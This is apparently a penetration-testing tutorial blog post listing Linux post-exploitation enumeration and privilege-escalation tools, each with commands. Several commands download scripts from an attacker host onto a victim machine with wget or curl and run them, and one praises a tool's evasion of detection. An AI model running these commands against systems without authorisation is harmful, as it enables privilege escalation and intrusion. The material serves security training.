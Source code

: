 ```yaml
---
layout: post
published: true
title: Linux Post Exploitation 10.3
tags:
  - PWP
  - Intermediate
  - Linux Post Exploitation
comments: true
---
```

## Linux Automated Scripts


## Introduction 

In this blog post, we will discuss some tools for performing our post-exploitation process, and save our time and efforts.


## Post Enumeration Scripts 


**LinEnum.sh**

``
https://github.com/rebootuser/LinEnum/blob/master/LinEnum.sh
``

This script is used to perform Linux post enumeration/Local Linux enumeration and privilege escalation checks.

**How to use?** 

You need to download it in the target machine using wget or curl.

You can also use python, php, ruby, or nc to start HTTP static web server.

Python
``
python -m SimpleHTTPServer 8080
``

``
python3 -m http.server 80
``

PHP
``
php -S localhost:80
``

Ruby
``
ruby -run -ehttpd . -p80
``

Netcat
``
while true ; do nc -l 80 < LinEnum.sh
``

**Downloading using curl and wget**
``
curl -x -o LinEnum.sh http://<AttackerIP>/LinEnum.sh
``

wget
``
wget http://<AttackerIP>/LinEnum.sh
``

``
chmod +x LinEnum.sh
``
``
./LinEnum.sh
``

And it will automate the post enumeration process and give the valuable result


**Pspy**

This tool monitor's linux processes without root permissions  

Download its binary in your attacker system, start the local server as before, and download it in the victim's machine.

After download execute it and it will perform monitoring for you.


**Linux exploit suggestor**

https://github.com/InteliSecureLabs/Linux_Exploit_Suggester

Linux_Exploit_Suggester suggests exploits based on operating system release number, which helps the attacker to exploit the target.


**Searchsploit**
We have discussed this tool in previous phases, it can also help us to check particular exploit for the target.


**Kernelpop**

https://github.com/spencerdodd/kernelpop

kernel privilege escalation enumeration and exploitation framework.


download it from the link above

``
$ cd kernelpop
$ python3 kernelpop.py
``

It will automate kernel vulnerability enumeration and exploitation


**Bashark**

Bashark aids pen-testers and security researchers during the post-exploitation phase of security audits.
Usage

To launch Bashark on compromised host, simply source the bashark.sh script from the terminal: $ source bashark.sh Then type help to see Bashark's help menu

Features

* Single Bash script
* Lightweight and fast
* Multi-platform: Unix, OSX, Solaris, etc.
* No external dependencies
* Immune to heuristic and behavioral analysis
* Built-in aliases of often used shell commands
* Extends system shell with post-exploitation oriented functionalities
* Stealthy, with custom cleanup routine activated on exit
* Easily extensible (add new commands by creating Bash functions)
* Full tab completion

``
wget https://raw.githubusercontent.com/TheSecondSun/Bashark/master/bashark.sh
``

and simply run it

``
chmod +x bashark.sh
``

``
./bashark.sh
``

**Linuxprivchecker**

Enumerates system configurations and check for privilege escalation

wget //www.securitysift.com/download/linuxprivchecker.py

``
python3 linuxprivchecker.py
``

**linux-exploit-suggester-2**

Linux_Exploit_Suggester-2 is the extended version of previous Linux_Exploit_Suggester used to find linux privilege escalation vulnerabilities in system. 

``
git clone //github.com/jondonas/linux-exploit-suggester-2.git
``

``
cd linux-exploit-suggester-2
``

``
./linux-exploit-suggester-2.pl
``

**BeRoot**
Privilege Escalation Project - Windows / Linux / Mac 
BeRoot Project is a post exploitation tool to check common misconfigurations to find a way to escalate our privilege.
It has been added to the pupy project as a post exploitation module (so it will be executed in memory without touching the disk).

For now, we are using it for linux

Features of BeRoot:

* Check Files Permissions

* SUID bin

* NFS root Squashing

* Docker

* Sudo rules

* Kernel Exploit

``
wget https://raw.githubusercontent.com/AlessandroZ/BeRoot/master/Linux/beroot.py
``

``
chmod +x beroot.py
``

``
./beroot.py
``



## Conclusion 

_**We have discussed some automated scripts which can help us during post-exploitation. I suggest to check them in your system to know about their work.**_
